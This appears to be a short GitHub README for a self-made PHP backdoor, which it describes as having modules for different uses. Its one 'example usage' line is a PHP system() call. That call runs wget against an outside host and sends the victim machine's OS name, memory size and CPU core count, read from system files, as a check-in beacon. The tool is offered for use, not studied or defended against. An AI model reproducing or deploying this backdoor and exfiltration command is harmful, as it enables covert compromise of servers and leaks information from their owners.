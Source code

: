 # Backdoor
A simple yet efficient backdoor in php. Made from scratch by me.
Has different modules for different usage.


Example usage :- system("wget -qO \"/dev/null\" \"http://mavscock.xyz/BlackDoor.php?BlackdoorName=Nload&OS=$(cat /etc/*-release | grep NAME=\\\" | head -1 | cut -c 6- | tr \" \" \"-\")&Ram=$(grep MemTotal /proc/meminfo | cut -c 18- | tr \" \" \"-\")&Cores=$(grep -c ^processor /proc/cpuinfo | tr \" \" \"-\")\";")

